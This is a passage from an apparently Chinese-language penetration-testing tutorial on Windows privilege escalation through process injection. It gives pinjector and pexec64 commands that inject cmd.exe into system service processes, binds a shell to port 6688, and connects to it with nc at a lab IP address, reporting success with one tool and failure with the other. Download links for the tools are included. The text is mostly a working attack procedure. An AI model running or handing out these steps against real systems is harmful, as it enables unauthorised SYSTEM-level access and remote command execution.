  pinjector.exe -l  //列出可注入的进程
  pinjector.exe -p pid cmd.exe 6688　　　//注入到系统正常的服务里，监听6688端口（后面是否为system权限）
  ```



```shell
pinjector.exe -P 416 cnd.exe 6688 
```



```shell
nc 192.168.131.111 6688 监听6688端口，成功反弹shell，成功提权
```




##### pexec64 32 进程注入工具针对-win2008 及后操作系统-（佛系）

[https://www.blib.cn/soft/pexec.zip](https://www.blib.cn/soft/pexec.zip)

使用process explorer查看进程号（PID）



```shell
pexec64.exe
pexec64.exe 4720
```



```shell
nc -t localhost 9999
```



升权没有成功！

# 涉及资源：

[https://www.blib.cn/soft/pexec.zip](https://www.blib.cn/soft/pexec.zip)
[https://docs.microsoft.com/zh-cn/sysinternals/downloads/process-explorer](https://docs.microsoft.com/zh-cn/sysinternals/downloads/process-explorer)
[https://www.tarasco.org/security/Process_Injector/processinjector.zip](https://www.tarasco.org/security/Process_Injector/processinjector.zip)